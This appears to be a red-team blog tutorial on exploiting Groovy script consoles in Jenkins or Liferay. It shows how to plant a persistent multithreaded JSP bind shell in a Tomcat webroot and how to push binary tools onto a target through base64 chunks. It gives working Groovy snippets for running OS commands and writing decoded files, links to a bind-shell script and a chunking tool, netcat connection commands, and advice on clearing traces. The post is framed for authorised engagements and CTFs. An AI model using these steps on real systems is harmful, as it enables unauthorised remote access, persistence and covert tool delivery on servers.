


# __OVERVIEW
Have you ever been in an engagement or CTF where you finally find a Groovy script console… and then discover that outbound connections are blocked? Or you have a basic shell but you just can't get tools to the target using built-in upload methods?

Over the next few minutes I'll show a practical, repeatable approach for turning a Groovy console into a persistent, multithreaded JSP bind shell that lives in the webroot and how to transfer binary tools via base64 encoding (small and large size). This guide serves as a proof of concept; the shell in here is not secure enough for opsec, but it's a starting point for you to build upon.
<!-- more -->
---
### Quick Refresher on Bind Shells:

The top side shows a bind shell: the victim host runs a listener (a shell bound to a TCP port) and the attacker connects into that listener to gain interactive access. The bottom side shows a reverse shell: the attacker runs the listener and the victim initiates an outbound connection back to the attacker, delivering a shell to the attacker's listener.

Reverse shells are the go-to for many red-teamers because they slip out through egress and work around NAT. But when outgoing traffic is tightly restricted (egress-blocked/proxied), you need a plan B. That's when bind shells become essential. In short: a bind shell makes the target listen and waits for an inbound connection. It trades the egress dependency of a reverse shell for a requirement that you can reach the host inbound (or via a pivot you control). That trade can be exactly what you need when defenders have locked down outbound channels.


-----

### Groovy Console to Bind Shell:

When your RCE is limited to a Groovy-style script console (in tools such as Jenkins, Liferay, etc.) and the target cannot reach back to you, the console itself becomes your primary file system and transfer channel. This post focuses on turning that console access into a stable way to read/write files and drop tools. Treat the console like a tiny development environment on the target: you can list folders, create files, and write binary blobs (via base64) into disk locations the web server will execute or serve.

---

## Exploitation Methodology

### High-Level Steps:

1. Initial reconnaissance: Run simple OS commands to identify the environment and locate the webroot.
2. Discover writable paths: Find locations where you can save files that persist and potentially get executed or served.
3. Deploy the bind shell: Write a persistent JSP bind shell to the webroot.
4. Transfer tools: Use base64 encoding to transfer binary tools (if needed).
5. Verify and connect: Test the bind shell and establish a connection.
6. Clean up: Document detection artifacts and remove traces when done.

---

## Step 1: Initial Reconnaissance

### Simple OS Commands POC

Proof-of-concept script for running simple commands such as `pwd`, `ls`, `dir`, `cd` to navigate the file system and identify where the Apache web root lives, so the bind shell you write can be accessed through a URL like `https://SITE/bindshell`.

1. Commands:

```terminal
For Linux:
pwd, ls -la, id, whoami, env

For Windows:
dir, whoami, echo %USERPROFILE%
```
The full groovy script would look like this:

```groovy
def cmd="YOURCOMMAND-dir"
def sout = new StringBuilder(), serr = new StringBuilder()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

---

## Step 2: Finding Stable, Writable Locations

From the console, run simple listing commands to map the file system and locate likely writable paths.

Typical candidate locations:

- Application webroot (e.g., `<TOMCAT_HOME>/webapps/ROOT`) — files here can often be triggered by HTTP requests.

Tips:

- Check file ownership and mode (`ls -la`) to avoid placing files you can't later run or overwrite.
- If multiple app instances exist (e.g., separate webapps), target the one whose webroot is public-facing.

---

## Step 3: Deploying the Bind Shell

In this step, you use a Groovy script that embeds a Java-based bind shell.

Use this link to access the script:
https://raw.githubusercontent.com/vipa0z/jenkins-liferay--stable-bind-shell/refs/heads/main/persistent_bind_shell.groovy

The script performs two main steps:
1. Saves a JSP bind shell to the specified location.
2. Activates the listener once you access the JSP through a URL.

Update the output path in the script to match your Tomcat webroot and modify the port the shell should listen on, then paste the script into your console and run it.


Hit save, then to enable the listener, browse to your web shell at: `http://site/bindshell.jsp`

Connect to the bind shell via netcat:

```
Example 1:
rlwrap -cAr nc -nv HOST-IP 3001

Example 2:
rlwrap -cAr nc -nv 172.16.30.10 3001
```
**Note on why multithreading was used:** With many bind shells, it’s easy to accidentally kill the session (for example, by hitting `Ctrl+C`). In early versions of this shell, once the client disconnected, reconnecting with netcat wasn’t reliable. To fix that, the JSP handler accepts new connections in separate threads so a disconnect doesn’t permanently “break” the listener.

---

##  Tool Transfers Using the Groovy Script Console
We can use the script console to transfer tools to the file system by first base64-encoding them and then running a script to decode that data into a local file on the target.
Depending on the target environment, some Groovy script console versions only support string variables that are around 6000 characters in length, which requires a bit of improvisation on our side.

### Method 1: For smaller sized tools (e.g., netcat, potato exploits, etc.):

**Note:** This will not work if your base64 string is more than 6000 characters in length; you can use Method 2 below instead.


Base64 encode the tool and copy to clipboard:

```
base64 --wrap=0 <tool.exe> | xclip -selection clipboard -i
```

Paste the encoded blob into the b64 variable:

```groovy
import java.util.Base64
import java.nio.file.Files
import java.nio.file.Paths
import java.nio.charset.StandardCharsets

def b64 = '''<LONG BASE64 STRING>'''
def dest = Paths.get("C:/DESTPATH/xyz")
byte[] bytes = Base64.getDecoder().decode(b64)
Files.write(dest, bytes)
println "Wrote ${bytes.length} bytes to ${dest}"
```

### For Larger Binaries

I put together a script that chunks your tools into smaller base64 files (6000 chars per chunk by default), so you can paste them into the console and reassemble them with Groovy.

Script: https://raw.githubusercontent.com/vipa0z/Groovy-bind-shell/refs/heads/main/tool_chunker.py

Run:
```
python3 tool_chunker.py yourtool.exe -o <output_dir> -s 6000
```

**Options:**
- `-s`: chunk size (default 6000)
- `-o`: output directory
- `-h`: help

The script outputs numbered chunks (`part1`, `part2`, etc.) and shows you what to do next.

**Example:**
```
python3 tool_chunker.py -s 6000 XecretsEz -o xcretsez
```


Steps:

1. Run the script as shown above
2. Paste into the script console
3. Copy the Groovy reassembly code from the script output and paste it below your base64 blobs
4. Double-check the write path is correct
5. Save and run

---

## Step 5: Verification

After dropping the file, sanity check it:

- Compare file size
- Hash it (MD5/SHA256) and compare with the original

---

## Step 6: Cleanup and Detection Artifacts

That's it! Quick recap: find writable paths, use base64 (chunked if needed), verify integrity, and clean up your artifacts when done.
